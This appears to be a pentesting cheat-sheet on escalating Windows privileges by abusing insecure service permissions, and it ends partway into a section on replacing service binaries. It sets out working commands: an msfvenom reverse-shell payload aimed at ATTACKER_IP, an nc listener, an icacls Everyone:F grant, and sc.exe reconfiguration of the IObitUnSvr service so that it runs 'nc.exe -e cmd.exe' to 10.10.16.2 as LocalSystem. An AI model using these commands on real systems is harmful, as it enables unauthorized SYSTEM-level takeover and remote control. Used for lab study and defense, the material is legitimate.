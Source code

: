 
#### Insecure Service Permissions

If the **service DACL** (not the binary) allows **SERVICE_CHANGE_CONFIG**,

you can reconfigure it to run any executable as **LocalSystem**.

**Step 1: Verify Permissions**

Confirm that the current user can modify the service via **AccessChk**, **SC**, or **Get-ServiceAcl**.

**Step 2: Build Payload and Start Listener**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f exe-service -o NAME.exe

nc -lnvp PORT
```

Grant full access to the payload:

```bash
icacls C:\\Users\\<user>\\payload.exe /grant Everyone:F
```

**Step 3: Reconfigure Service to Execute Payload**

```bash
sc.exe config IObitUnSvr binPath= "C:\\Program Files (x86)\\IObit\\IObit Uninstaller\\IUService.exe" obj= LocalSystem

sc.exe config IObitUnSvr binPath= "cmd.exe /c C:\\Users\\dharding\\Documents\\nc.exe -e cmd.exe 10.10.16.2 80" obj= LocalSystem
```

**Step 4: Restart Service to Trigger Payload**

```bash
sc stop <service>
sc start <service>

# or
sc.exe stop <service>
sc.exe start <service>

#or 

Stop-Service <service>
Start-Service <service>
Restart-Service <service>
```

#### Service Binary Replace

**Step 1: Create Malicious Executable**

```powershell
icacls "C:\\xampp\\mysql\\bin\\mysqld.exe"
```
